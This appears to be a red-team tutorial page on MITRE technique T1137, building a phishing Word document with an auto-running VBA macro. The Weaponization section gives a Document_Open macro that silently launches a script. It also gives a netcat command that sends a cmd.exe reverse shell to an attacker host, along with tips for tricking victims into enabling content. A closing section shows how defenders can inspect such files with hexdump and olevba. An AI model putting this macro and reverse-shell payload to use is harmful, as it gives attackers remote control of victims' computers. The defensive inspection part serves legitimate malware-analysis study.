









# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:


```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```



```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```


This is how it should look roughly in:



ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:


Save the file as a macro enabled document, for example a Doc3.dotm:





## Execution

Victim launching the Doc3.dotm:



...and enabling the content - which results in attacker receiving a reverse shell:



## Observations

The below graphic represents the process ancestry after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:



## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a WinZip or 7Zip and Strings utility or any type of Hex Editor to hand. 

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file Dot3.dotm can be renamed to **Doc3.zip** and simply unzipped like a regular ZIP archive. Doing so deflates the archive and reveals the files that make up the malicious office document. One of the files is the `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros themselves:



Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:



Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through it. This can sometimes give you as defender enough to determine if the document is suspicious/malicious. 

Running `hexdump -C vbaProject.bin` reveals some fragmented keywords that should immediately raise your suspicion - **Shell, Hide, Sub\_Open** and something that looks like a file path:



If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:




Note that the olevba can be fooled as per [http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)


## References



